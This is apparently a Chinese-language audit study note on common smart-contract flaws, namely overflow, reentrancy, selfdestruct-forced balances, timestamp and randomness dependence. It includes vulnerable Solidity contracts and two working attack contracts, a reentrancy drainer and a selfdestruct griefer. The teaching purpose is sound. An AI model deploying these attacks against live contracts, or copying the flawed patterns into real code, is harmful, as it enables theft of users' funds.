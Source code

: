 ## 智能合约常见漏洞审计
 **整数溢出**
 在solidity0.8.0开始，加入了自动检查溢出功能，此版本之后的合约,不必担心这个漏洞。
```Solidity
  function batchTransfer(address[] _receivers, uint256 _value) public whenNotPaused returns (bool) {
    uint cnt = _receivers.length;
    uint256 amount = uint256(cnt) * _value;
    require(cnt > 0 && cnt <= 20);
    require(_value > 0 && balances[msg.sender] >= amount);

    balances[msg.sender] = balances[msg.sender].sub(amount);
    for (uint i = 0; i < cnt; i++) {
        balances[_receivers[i]] = balances[_receivers[i]].add(_value);
        Transfer(msg.sender, _receivers[i], _value);
    }
    return true;
  }
```
batchTransfer 函数，它用于给地址列表中的所有地址都转账 _value,
但是没有检查 amount 是否溢出，这导致每个人的转账金额 _value 很大，
但是总共的 amount 却接近0.
所以要引入:library SafeMath {} 来规避掉溢出问题.

**重入攻击(递归调用攻击)**
transfer与send的区别
如果转账过程中出现问题，transfer会直接回退，所有之前的操作全部作废。
而send则不会回退交易，而是返回一个结果值true或false，至于回不回退，由调用者自己决定。
所以transfer就等于require(send),call函数则与send基本相同，只是gas费你可以自由指定。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
当攻击者调用储币合约中的 withdraw 函数时，withdraw 使用 call 底层调用发送以太币，
此时接收者是攻击者的 fallback 函数，因此如果在 fallback 函数中重新调用 withdraw 函数，
并且没有检查机制，就会发生重入攻击。

**payable函数导致合约余额更新**
当函数执行时，合约会先读取到交易对象，因此合约的余额会变成原来的余额+msg.value,
某些合约可能会未注意到余额的变化而产生漏洞。
**短地址攻击**
因为交易中data参数是原始的调用数据经过ABI编码的数据，ABI规则中常常会为了凑够32字节，在对原始参数编码时进行符号扩充。因此，如果输入的地址太短，那么编码时不会检查，就会直接补零，导致接收者改变。
**挖矿属性依赖**
合约中有部分内置变量，这些变量会受到矿工的影响，因此不应该把它们当作特定的判断条件。
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
contract Roulette {
    uint public pastBlockTime;
    fallback() external payable {
        require(msg.value == 10 ether);
        require(block.timestamp != pastBlockTime);
        pastBlockTime = block.timestamp;
        if(block.timestamp % 15 == 0){//依赖了区块时间戳
        payable(msg.sender).transfer(address(this).balance);
        }   
    }
}
```
**合约余额依赖**
selfdestruct函数是内置的强制执行的函数，因此即使合约没有可接受以太币的方法，
其他人依然可以通过强制执行selfdestruct函数改变合约余额，所以要仔细检查是否将合约余额作为判断标准。
例如，下面的合约，规定只有恰好7 ether的才能胜出，但是攻击者可以通过selfdestruct函数让没有人能够达到 7 ether.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract EtherGame {
    uint public targetAmount = 7 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint balance = address(this).balance;
        require(balance <= targetAmount, "Game is over");//只有合约余额达到 7 ether 才能成功

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    EtherGame etherGame;

    constructor(EtherGame _etherGame) {
        etherGame = EtherGame(_etherGame);
    }

    function attack() public payable {
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}

```
**悬赏白帽子处理黑客潜规则**
**随机数攻击**
针对智能合约生成算法进行攻击，预测生成结果。目前区块链上很多合约都是采用的链上信息，
如区块时间戳，未来区块哈希等。作为游戏合约的随机数源，也称种子。使用这种种子生成的随机数
被称为伪随机数。它不是真的随机数，存在被预测的可能。当使用可被预测的种子生成随机数的时候，
一旦生成算法被攻击者猜到或通过逆向方式拿到攻击者就可以实现预测。
由于区块链上的数据对所有人都公开透明，完全可以提前拿到数据，并计算结果。做法就是，创建一个攻击合约
attack，这个合约中先预测结果，再决定是否调用其它函数。由于两个合约再同一个区块中被运行，也就是说它们拿到的
区块难度值和时间戳相同，所以攻击者有能力先预测结果在调用。         

**自毁函数攻击**
自毁函数是一个很隐蔽的可以发送以太的方法。攻击者可以利用该函数，向目标合约强制转账，从而影响目标合约的正常功能。
由于这个合约没有fallback和receive函数，所以不会接受外部发来的以太。若黑客绕开deposit函数充入以太，则游戏便无法
进行了，不会再产生赢家。而如何绕开deposit函数呢？就是利用selfdestruct函数向攻击目标合约强制转账，黑客先在攻击合约中
存满7个以太，然后执行自会函数。那么七个以太就会强制转账给目标合约了。以太坊留有后门，可以通过自会函数强制转账，即使被
攻击的合约没有fallback或receive函数。

**访问控制漏洞**





